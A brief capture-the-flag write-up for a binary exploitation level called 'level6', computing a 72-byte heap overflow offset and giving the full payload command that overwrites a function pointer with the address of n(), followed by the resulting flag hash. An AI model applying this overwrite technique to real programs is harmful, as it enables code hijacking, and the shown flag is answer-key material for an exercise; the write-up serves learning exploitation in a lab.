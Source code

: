 # level 6

There is an exec level6, we bring to local data.

## addresses

n()
    08048454

__dest malloc(64) and ppcVar1 malloc(4) so we have an minimum offset of 68
ltrace ./level6 $(python -c "print 'a' * 72")
we found a segfault at 72

    $ ./level6 $(python -c "print 'a' * 72 + '\x54\x84\x04\x08'")
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d